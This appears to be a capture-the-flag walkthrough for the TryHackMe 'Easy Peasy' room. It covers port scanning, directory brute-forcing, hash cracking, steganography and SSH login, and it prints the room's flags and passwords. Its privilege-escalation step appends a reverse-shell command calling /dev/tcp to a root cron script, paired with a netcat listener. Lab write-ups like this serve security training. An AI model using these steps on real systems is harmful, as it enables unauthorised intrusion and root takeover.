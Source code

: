 # Easy Peasy

**Room Link:** [https://tryhackme.com/room/easypeasyctf](https://tryhackme.com/room/easypeasyctf)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (30) (5).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

port 5698 and 65524 found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (18) (3).png" alt=""><figcaption></figcaption></figure>



## Flag #1

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

<figure><img src="../../.gitbook/assets/image (7) (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gobuster dir -u http://$VICTIM/hidden -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

<figure><img src="../../.gitbook/assets/image (10) (4).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (23) (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (28) (4).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
echo "ZmxhZ3tmMXJzN19mbDRnfQ==" |base64 -d
```

<figure><img src="../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

## Flag #2

**Kali**

```
curl http://$VICTIM:65524/robots.txt
```



<figure><img src="../../.gitbook/assets/image (8) (3).png" alt=""><figcaption></figcaption></figure>



[https://md5hashing.net/hash/md5/a18672860d0510e5ab6699730763b250](https://md5hashing.net/hash/md5/a18672860d0510e5ab6699730763b250)

<figure><img src="../../.gitbook/assets/image (37) (5).png" alt=""><figcaption></figcaption></figure>

## Flag #3&#x20;

<figure><img src="../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

## Hidden Directory

<figure><img src="../../.gitbook/assets/image (42) (4).png" alt=""><figcaption></figcaption></figure>



**CyberChef**: [https://gchq.github.io/CyberChef/#recipe=From\_Base62('0-9A-Za-z')\&input=T2JzSm1QMTczTjJYNmRPckFnRUFMMFZ1](https://gchq.github.io/CyberChef/#recipe=From\_Base62\('0-9A-Za-z'\)\&input=T2JzSm1QMTczTjJYNmRPckFnRUFMMFZ1)

<figure><img src="../../.gitbook/assets/image (22) (9).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (34) (4).png" alt=""><figcaption></figcaption></figure>



## Crack the Hash

**Kali**

```
wget https://gitlab.com/kalilinux/packages/hash-identifier/-/raw/kali/master/hash-id.py
python hash-id.py 940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81
```

<figure><img src="../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

Format turned out to be GOST

**Kali**

```
john --wordlist=easypeasy.txt --format=GOST hash.txt
```

<figure><img src="../../.gitbook/assets/image (20) (5).png" alt=""><figcaption></figcaption></figure>



## SSH Password

**Kali**

```
wget http://$VICTIM:65524/n0th1ng3ls3m4tt3r/binarycodepixabay.jpg
steghide extract -sf binarycodepixabay.jpg 
Password: mypasswordforthatjob
```

<figure><img src="../../.gitbook/assets/image (36) (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (3).png" alt=""><figcaption></figcaption></figure>

**Link:** [https://www.rapidtables.com/convert/number/binary-to-ascii.html](https://www.rapidtables.com/convert/number/binary-to-ascii.html)

<figure><img src="../../.gitbook/assets/image (24) (8).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh boring@$VICTIM:6498
Password: iconvertedmypasswordtobinary
```

<figure><img src="../../.gitbook/assets/image (25) (5).png" alt=""><figcaption></figcaption></figure>

## User Flag

<figure><img src="../../.gitbook/assets/image (29) (4).png" alt=""><figcaption></figcaption></figure>

**Link:** [https://www.dcode.fr/caesar-cipher](https://www.dcode.fr/caesar-cipher)

<figure><img src="../../.gitbook/assets/image (9) (3).png" alt=""><figcaption></figcaption></figure>



## Privilege Escalation

**Victim**

```
cat /etc/crontab
cd /var/www/
ls -lah
```

<figure><img src="../../.gitbook/assets/image (26) (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
echo "sh -i >& /dev/tcp/$KALI/1337 0>&1" >> .mysecretcronjob.sh
```

**Kali**

```
nc -lvnp 1337
```

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>



















































